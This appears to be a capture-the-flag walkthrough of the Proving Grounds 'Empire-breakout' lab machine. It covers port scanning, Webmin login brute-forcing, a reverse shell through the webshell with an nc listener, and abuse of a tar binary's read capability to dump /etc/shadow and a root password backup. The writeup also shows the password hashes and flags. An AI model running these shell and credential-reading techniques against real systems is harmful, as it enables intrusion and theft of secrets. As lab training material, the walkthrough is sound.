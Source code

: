 ```yaml
---
categories: [proving-ground-play]
tags: [proving-ground,walkthrough,pentest]
---
```


## **Description ⤵️**

>
💡 This machine consists of username enumeration through bruteforce then access the webshell after that play with SUIDs comamds for root !
{: .prompt-info }


### Let’s find the IP Address first >>

```bash
IP : 192.168.164.238
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Empire-breakout]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.164.238
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-15 14:22 IST
Stats: 0:09:20 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 39.94% done; ETC: 14:46 (0:14:02 remaining)
Warning: 192.168.164.238 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.164.238
Host is up (0.30s latency).
Not shown: 65510 closed tcp ports (reset)
PORT      STATE    SERVICE    VERSION
80/tcp    open     http       Apache httpd 2.4.51 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.51 (Debian)
2904/tcp  filtered m2ua
4078/tcp  filtered cssp
9250/tcp  filtered unknown
10000/tcp open     tcpwrapped
12407/tcp filtered unknown
12665/tcp filtered unknown
14359/tcp filtered unknown
14997/tcp filtered unknown
16032/tcp filtered unknown
17092/tcp filtered unknown
19944/tcp filtered unknown
20000/tcp open     http       MiniServ 1.830 (Webmin httpd)
|_http-server-header: MiniServ/1.830
|_http-title: 200 &mdash; Document follows
22474/tcp filtered unknown
26283/tcp filtered unknown
29720/tcp filtered unknown
31306/tcp filtered unknown
39871/tcp filtered unknown
41579/tcp filtered unknown
55786/tcp filtered unknown
57478/tcp filtered unknown
57725/tcp filtered unknown
62844/tcp filtered unknown
63324/tcp filtered unknown
63436/tcp filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1374.00 seconds
```

---

## Web Enumeration ⤵️

Now this machine runs an Apache server After checking the source code I got this →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled.png)

After decoding this Brainfuck encoding I got this →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%201.png)

```bash
.2uqPEfj3D<P'a-3
```

Now I also see port 10000 and 20000 open as http-login page lets see →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%202.png)

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%203.png)

Now after running burpsuite for username bruteforce I got this on port 20000 →

```bash
cyber : .2uqPEfj3D<P'a-3
```

After Getting password when I logged into the website →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%204.png)

Now I got access for the home directory of cyber user as a web interface →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%205.png)

Now I clicked into the webshell option on top right side and tried reverse shell →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%206.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Empire-breakout]
└─$ nc -lvp 4444
listening on [any] 4444 ...
192.168.164.238: inverse host lookup failed: Unknown host
connect to [192.168.45.219] from (UNKNOWN) [192.168.164.238] 33992
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
cyber@breakout:~$ whoami
whoami
cyber
cyber@breakout:~$ id
id
uid=1000(cyber) gid=1000(cyber) groups=1000(cyber),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
cyber@breakout:~$
```

Lets see the files →

```bash
cyber@breakout:~$ ls -al
ls -al
total 572
drwxr-xr-x  8 cyber cyber   4096 Jul 15 06:16 .
drwxr-xr-x  3 root  root    4096 Oct 19  2021 ..
-rw-------  1 cyber cyber      0 Oct 20  2021 .bash_history
-rw-r--r--  1 cyber cyber    220 Oct 19  2021 .bash_logout
-rw-r--r--  1 cyber cyber   3526 Oct 19  2021 .bashrc
drwxr-xr-x  2 cyber cyber   4096 Oct 19  2021 .filemin
drwx------  2 cyber cyber   4096 Oct 19  2021 .gnupg
drwxr-xr-x  3 cyber cyber   4096 Oct 19  2021 .local
-rw-r--r--  1 root  root      33 Jul 15 04:49 local.txt
-rw-r--r--  1 cyber cyber    807 Oct 19  2021 .profile
-rw-r--r--  1 cyber cyber   3464 Jul 15 06:16 shell.php
drwx------  2 cyber cyber   4096 Oct 19  2021 .spamassassin
-rwxr-xr-x  1 root  root  531928 Oct 19  2021 tar
drwxr-xr-x  2 cyber cyber   4096 Jul 15 06:23 .tmp
drwx------ 17 cyber cyber   4096 Jul 15 06:12 .usermin
cyber@breakout:~$ cat local.txt	
cat local.txt
acff2c9656634fdd92b71c7c91d1e01c
cyber@breakout:~$
```

while checking capabilities I got tar →

```bash
cyber@breakout:/$ getcap -r / 2>/dev/null
/home/cyber/tar cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep
cyber@breakout:/$
```

If I can’t be root directly through executing the payload of tar into the shell so lets try to read the content of root priviledge files through this payload →

```bash
File read >

LFILE=file_to_read
tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
```

```bash
cyber@breakout:~$ ./tar xf /etc/shadow -I '/bin/sh -c "cat 1>&2"'      
root:$y$j9T$eJzu0TYuqGwZThJJzbP6o.$Xs23PV9/MdV33YMgceRv1Ic6anL08XclYLE9UX1WiJ6:19381:0:99999:7:::
daemon:*:18919:0:99999:7:::
bin:*:18919:0:99999:7:::
sys:*:18919:0:99999:7:::
sync:*:18919:0:99999:7:::
games:*:18919:0:99999:7:::
man:*:18919:0:99999:7:::
lp:*:18919:0:99999:7:::
mail:*:18919:0:99999:7:::
news:*:18919:0:99999:7:::
uucp:*:18919:0:99999:7:::
proxy:*:18919:0:99999:7:::
www-data:*:18919:0:99999:7:::
backup:*:18919:0:99999:7:::
list:*:18919:0:99999:7:::
irc:*:18919:0:99999:7:::
gnats:*:18919:0:99999:7:::
nobody:*:18919:0:99999:7:::
_apt:*:18919:0:99999:7:::
systemd-timesync:*:18919:0:99999:7:::
systemd-network:*:18919:0:99999:7:::
systemd-resolve:*:18919:0:99999:7:::
messagebus:*:18919:0:99999:7:::
cyber:$y$j9T$x6sDj5S/H0RH4IGhi0c6x0$mIPyCIactTA3/gxTaI7zctfCt2.EOGXTOW4X9efAVW4:18919:0:99999:7:::
systemd-coredump:!*:18919::::::
cyber@breakout:~$
```

Now while enumeration I also found a file named as .old.pass.bak but it has root permission so lets try to open that file →

```bash
cyber@breakout:/var/backups$ ls -al                                     
total 484
drwxr-xr-x  2 root root   4096 Dec  8  2022 .
drwxr-xr-x 14 root root   4096 Oct 19  2021 ..
-rw-r--r--  1 root root  40960 Dec  8  2022 alternatives.tar.0
-rw-r--r--  1 root root  12674 Nov 17  2022 apt.extended_states.0
-rw-r--r--  1 root root   1467 Oct 19  2021 apt.extended_states.1.gz
-rw-r--r--  1 root root      0 Dec  8  2022 dpkg.arch.0
-rw-r--r--  1 root root    186 Oct 19  2021 dpkg.diversions.0
-rw-r--r--  1 root root    135 Oct 19  2021 dpkg.statoverride.0
-rw-r--r--  1 root root 413488 Oct 19  2021 dpkg.status.0
-rw-------  1 root root     17 Oct 20  2021 .old_pass.bak
cyber@breakout:/var/backups$
```

```bash
cyber@breakout:~$ ./tar xf /var/backups/.old_pass.bak -I '/bin/sh -c "cat 1>&2"'
Ts&4&YurgtRX(=~h
cyber@breakout:~$
```

Now lets use this string value as a password of this root user →

```bash
cyber@breakout:~$ su root
Password: 
root@breakout:/home/cyber# cd /root
root@breakout:~# whoami
root
root@breakout:~# id
uid=0(root) gid=0(root) groups=0(root)
root@breakout:~# ls -al
total 40
drwx------  6 root root 4096 Jul 15 04:50 .
drwxr-xr-x 18 root root 4096 Oct 19  2021 ..
-rw-------  1 root root 1010 Dec 14  2022 .bash_history
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Oct 19  2021 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   33 Jul 15 04:50 proof.txt
drwx------  2 root root 4096 Oct 19  2021 .spamassassin
drwxr-xr-x  2 root root 4096 Oct 19  2021 .tmp
drwx------  6 root root 4096 Oct 19  2021 .usermin
root@breakout:~# cat proof.txt
d433cb8a51a9d8e36e928a564f71d053
root@breakout:~#
```
